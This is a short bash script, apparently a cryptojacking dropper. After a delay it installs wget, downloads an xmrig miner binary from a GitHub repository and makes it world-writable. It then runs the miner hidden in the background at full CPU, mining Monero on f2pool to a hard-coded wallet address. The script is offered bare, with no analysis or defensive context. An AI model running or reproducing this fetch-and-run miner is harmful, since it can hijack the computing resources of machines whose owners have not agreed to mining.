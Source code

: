 #!/bin/bash
sleep 15
yum install wget -y
wget https://github.com/2319763378/pool/raw/master/xmrig
chmod 777 xmrig
nohup ./xmrig -l he18789683272.001 --max-cpu-usage 100 -o  xmr.f2pool.com:13531 -u 4Ar6RcYY4jrjfb5vc1NZpHLfrwr6VRUzPTsajLh9JSwXPJhFuTRbfTF1DYbZzaMMXnbq3Th3xQ6TpbhBd7CgnZmWT932UAt -p x -k &

